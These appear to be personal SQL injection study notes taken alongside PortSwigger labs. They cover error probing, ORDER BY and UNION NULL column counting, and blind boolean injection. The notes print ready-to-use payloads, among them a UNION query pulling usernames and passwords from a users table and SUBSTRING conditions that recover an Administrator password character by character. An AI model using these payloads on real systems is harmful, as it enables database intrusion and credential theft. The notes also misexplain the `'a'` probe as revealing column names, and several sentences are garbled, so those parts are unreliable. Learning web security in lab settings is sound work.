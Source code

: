 ### Introduction
SQLI in an input that allows the attacker to send queries to the database. The risk are several like **generate data breach** or even alter the database.
Detection of sqli could be with the following steps
- The single quote character `'` and look for errors or other anomalies.
- Some SQL-specific syntax that evaluates to the base (original) value of the entry point, and to a different value, and look for systematic differences in the application responses.
- Boolean conditions such as `OR 1=1` and `OR 1=2`, and look for differences in the application's responses.
- Payloads designed to trigger time delays when executed within a SQL query, and look for differences in the time taken to respond.
- OAST payloads designed to trigger an out-of-band network interaction when executed within a SQL query, and monitor any resulting interactions.
### Confirming
We could detect if there's any issue unsanitized because a single quote cause an error, but you could check a wordlist to this too.
Here some example [[lab-login-bypass]], [[lab-retrieve-hidden-data]]

### How much column are there
IMagine you got the following query retrieving data from the DB
```url
SELECT name, description FROM products WHERE category = 'Gifts'
```
Now if we want to use the db to retrieve all the data from a column
```sql
' UNION SELECT username, password FROM users--
```
So we are closing the `'gift'` and retrieving the data using UNION, this keyword enables to append the results to the original query. For example:

`SELECT a, b FROM table1 UNION SELECT c, d FROM table2`

So to carry out this query ensure to answer this two questions:
1. How many columns are being returned from the original query.
2. Which columns returned from the original query are of a suitable data type to hold the results from the injected query.

To know how much columns there are you could uses the `ORDER BY` query (it doesn't really matters whether it is in uppercase or lowercase because SQL language is case-insensitive).
```SQL
' ORDER BY 1-- 
' ORDER BY 2-- 
' ORDER BY 3--
```
THis is usefule to determine the number of columns, because this no needs you ton know the name of the columns, and if you exceed the number of columns it retrieves an error such as:
`The ORDER BY position number 3 is out of range of the number of items in the select list.`
or not necessarily an error but some difference in the response for sure.
And the second method involves to use `UNION SELCT` 
```SQL
' UNION SELECT NULL-- 
' UNION SELECT NULL,NULL-- 
' UNION SELECT NULL,NULL,NULL--
```
If the number of nulls mismatch the numbers of columns, the sams as before, it will retrive some kind on anomalous

[[lab-determine-number-of-columns]]
#### The sintax may vary assuming the different SQL tecnology
https://portswigger.net/web-security/sql-injection/cheat-sheet

### What's the column name
To guess the name of the column we will use the samne union select query with the null, but we should go specifying the name of the column, so if something goes wrong it throws an error or something, if it is correct it desplay correctly, so
```sql
' UNION SELECT 'a',NULL,NULL,NULL-- 
' UNION SELECT NULL,'a',NULL,NULL-- 
' UNION SELECT NULL,NULL,'a',NULL-- 
' UNION SELECT NULL,NULL,NULL,'a'--
```
if the column start with the letter a it display, in the other case it throws an error, this way we could enumerate the column names

[[]]

## Blind SQL
### What is is?
Blind SQL occurs whne the application is vulnerable to SQLI but in the response you can see anything from de data base, that's why UNION attack will fail, because that's used to see how many columns there are. 
##### Example
**For example** an application that uses a cookie to determine if you're a known user, so this application uses the following query `SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'`, that's is not reflecting in any kind of data, but when you submit a recognized `TrackingId`, the query returns data and you receive a "Welcome back" message in the response, this behavior is what we refer with **blind sql**, we could submit an `…xyz' AND '1'='1` and it returns *welcome back* because the condition is true, so on `…xyz' AND '1'='2` don't retrieve any because the condition is false, thereby you could use it to retrieve data: `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm` This returns the "Welcome back" message, indicating that the injected condition is true, and so the first character of the password is greater than `m`.
Next, we send the following input:

`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't`

This does not return the "Welcome back" message, indicating that the injected condition is false, and so the first character of the password is not greater than `t`. And eventually continue the process to determine the username-password